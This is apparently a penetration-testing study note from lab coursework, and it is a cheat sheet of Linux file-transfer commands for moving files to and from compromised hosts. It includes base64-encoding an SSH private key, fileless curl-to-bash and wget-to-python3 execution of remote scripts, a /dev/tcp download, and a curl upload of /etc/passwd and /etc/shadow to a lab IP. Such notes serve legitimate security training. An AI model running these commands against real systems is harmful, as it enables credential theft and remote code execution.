 # **Download Operations**
---
# Base64 Encoding / Decoding
---
- Encode SSH Key to Base64:
	- `cat id_rsa |base64 -w 0;echo`
- We copy this content and decode:
	- `echo -n 'copied_content' | base64 -d` > id_rsa
- Confirm the MD5 Hashes Match:
	- `md5sum id_rsa`

# Web Downloads with Wget and cURL
---
- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`
- `curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`

# Fileless Attacks Using Linux
---
**Note:** Some payloads s**uch as `mkfifo` write files to disk.** Keep in mind that while the **execution of the payload may be fileless** when you use a pipe, depending on the payload chosen it **==may create temporary files on the OS.==**

- Fileless Download with cURL:
	- `curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`
- Fileless Download with wget:
	- `wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3`

# Download with Bash (/dev/tcp)
---
- Connect to the Target Webserver:
	- `exec 3<>/dev/tcp/10.10.10.32/80`
- HTTP GET Request:
	- `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`
- Print the Response:
	- `cat <&3`

# SSH Downloads
---
- Starting the SSH Server:
	- `sudo systemctl start ssh`
- `scp plaintext@192.168.49.128:/root/myroot.txt . `

# **Upload Operations**
---
# Web Upload - Using HTTPS (HTTP was covered in [[Windows File Transfer Methods]])
---
-  Create a Self-Signed Certificate:
	  `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`
- Start Web Server:
	  `python3 -m uploadserver 443 --server-certificate ~/server.pem`
- Upload Multiple Files:
	  `curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure`

# Alternative Web File Transfer Method
---
- Since Linux distributions usually have `Python` or `php` installed, starting a web server to transfer files is straightforward.

-  Creating a Web Server with Python3:
	- `python3 -m http.server`
	- `python2.7 -m SimpleHTTPServer`
- Creating a Web Server with PHP:
	- `php -S 0.0.0.0:8000`
- Creating a Web Server with Ruby:
	- `ruby -run -ehttpd . -p8000`
- Download the File from the Target Machine:
	- `wget 192.168.49.128:8000/filetotransfer.txt`

# SCP Upload
---
- `scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/`